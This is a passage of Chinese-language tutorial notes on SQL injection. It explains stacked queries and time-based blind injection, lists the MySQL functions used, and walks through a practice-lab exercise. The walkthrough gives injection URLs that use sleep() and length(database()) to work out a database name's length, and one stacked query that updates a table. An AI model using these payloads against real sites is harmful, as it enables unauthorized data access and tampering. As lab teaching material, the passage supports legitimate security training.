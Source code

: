   - http://test.com/view?id=1;update t set name = ‘a‘ where id=1 
  - 能够执行多条查询语句，非常危险，因为这意味着能够对数据库直接做更新操作。 



#### 时间盲注定义

- 时间盲注是什么？ 
  - 通过注入特定语句，根据对页面请求的物理反馈，来判断是否注入成功，如： 在SQL语句中使用sleep() 函数看加载网页的时间来判断注入点。
  - 适用场景：通常是无法从显示页面上获取执行结果，甚至连注入语句是否执行都无从得知。 





#### 时间盲注原理 

- 原理示意
  - select * from user where id= ‘ ？’
    - ？ 用户输入，替代为 4’ and sleep(3) -- ‘
  - 实际上执行的SQL语句：
    - select * from user where id= ‘4’ and sleep(3) -- ‘’
  - 当id=4存在时，休眠3秒
  - 当id=4不存在时，直接返回
  - 整条拼接出来的SQL是正确的就执行最后的sleep，前面错误（不存在），sleep(3)不执行。 



#### 时间盲注常用函数

- substr(a,b,c)：从b位置开始，截取字符串a的c长度
- count()：计算总数
- ascii()：返回字符的ASCII码
- length()：返回字符串的长度
- left(a,b)：从左往右截取字符串a的前b个字符
- sleep(n)：将程序挂起n秒
- 还有很多函数可以挖掘，如binary等，同学们理解了盲注的原理后可以到 MySQL官网的Reference去学习。 



#### 时间盲注实战

- 安装，注册，并登录靶机

- 选择bug类型：Choose your bug: SQL Injection - Blind - Time-Based

- 注入尝试

  - 尝试使用错误注入，布尔注入
  - 均无反馈信息（这一点很重要）
  - 尝试其他内容 

- 时间注入 

  - 使用or的方式：http://xforburp.com/sqli_15.php?title=1' or sleep(2) -- &action=search
  - 浏览器一直转圈圈，2秒后获得请求而停止
  - 使用and的方式：http://xforburp.com/sqli_15.php?title=World War Z' and sleep(2) -- &action=search

- 数据库名字长度获取

  - 由于注入点不能反馈信息，所以不能像前面两个注入方式那样直接简洁地获取数据库信息，需要从侧面一步步拼凑信息。 
  - http://xforburp.com/sqli_15.php?title=World War Z' and length(database())=1 and sleep(2) -- &action=search
  - http://xforburp.com/sqli_15.php?title=World War Z' and length(database())>1 and sleep(2) -- &action=search
  - http://xforburp.com/sqli_15.php?title=World War Z' and length(database())>5 and sleep(2) -- &action=search
  - http://xforburp.com/sqli_15.php?title=World War Z' and length(database())>4 and sleep(2) -- &action=search
  - http://xforburp.com/sqli_15.php?title=World War Z' and length(database())=5 and sleep(2) -- &action=search
  - 最终确定数据库名称的长度是5
